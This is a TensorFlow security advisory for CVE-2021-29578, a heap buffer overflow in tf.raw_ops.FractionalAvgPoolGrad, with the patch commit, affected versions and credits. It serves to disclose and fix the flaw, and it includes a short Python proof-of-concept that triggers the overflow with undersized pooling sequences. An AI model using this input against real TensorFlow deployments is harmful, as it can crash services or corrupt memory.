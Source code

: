 ## TFSA-2021-067: Heap buffer overflow in `FractionalAvgPoolGrad`

### CVE Number
CVE-2021-29578

### Impact
The implementation of `tf.raw_ops.FractionalAvgPoolGrad` is vulnerable to a heap
buffer overflow:

```python
import tensorflow as tf

orig_input_tensor_shape = tf.constant([1, 3, 2, 3], shape=[4], dtype=tf.int64)
out_backprop = tf.constant([2], shape=[1, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)


tf.raw_ops.FractionalAvgPoolGrad(
  orig_input_tensor_shape=orig_input_tensor_shape, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/dcba796a28364d6d7f003f6fe733d82726dda713/tensorflow/core/kernels/fractional_avg_pool_op.cc#L216)
fails to validate that the pooling sequence arguments have enough elements as
required by the `out_backprop` tensor shape.

### Patches
We have patched the issue in GitHub commit
[12c727cee857fa19be717f336943d95fca4ffe4f](https://github.com/tensorflow/tensorflow/commit/12c727cee857fa19be717f336943d95fca4ffe4f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
